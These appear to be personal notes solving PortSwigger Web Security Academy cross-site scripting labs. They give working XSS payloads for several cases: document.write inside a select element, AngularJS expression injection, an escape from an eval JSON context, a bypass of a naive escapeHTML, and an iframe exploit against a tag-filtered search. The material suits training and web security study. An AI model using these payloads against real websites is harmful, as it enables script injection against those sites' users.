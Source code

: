 ____

# DOM XSS in `document.write` sink using source `location.search` inside a select element

```html
"></select><img src=1 onerror=alert(1)>
```

![[Pasted image 20240804162601.png]]

```html
test</select><img src=1 onerror=alert(1)>
```

# DOM XSS in AngularJS expression with angle brackets and double quotes HTML-encoded

`ng-app`

```js
{{$on.constructor('alert(1)')()}}
```

# Reflected DOM XSS

The application may be vulnerable to DOM-based JavaScript injection. Data is read from **location.search** and passed to **eval**.

```js
\"-alert()}//
```

Here's the step-by-step breakdown of why this works:

1. **Escape the JSON Context**: The `\"` escapes the JSON string.
2. **Inject Code**: `-alert()` gets injected and executed.
3. **Comment Out**: `}//` comments out the rest to prevent any syntax errors from the remaining code.

# Stored DOM XSS

> Function replaces first angle brakets only:

```js
 function escapeHTML(html) {
        return html.replace('<', '&lt;').replace('>', '&gt;');
    }
```

```js
<><img src=1 onerror=alert(1)>
```

# Reflected XSS into HTML context with most tags and attributes blocked

"Tag is not allowed"

https://portswigger.net/web-security/cross-site-scripting/cheat-sheet

Copy tags to clipboard

![[Pasted image 20240806115813.png]]

Status 200 --> <body>

"Attribute is not allowed"

Copy events to clipboard

![[Pasted image 20240806120258.png]]

```js
<body onresize="print()">
```

```js
<iframe src="https://0aff0012036c406f80a92664002500fa.web-security-academy.net/?search=%22%3E%3Cbody%20onresize=print()%3E" onload=this.style.width='100px'>
```










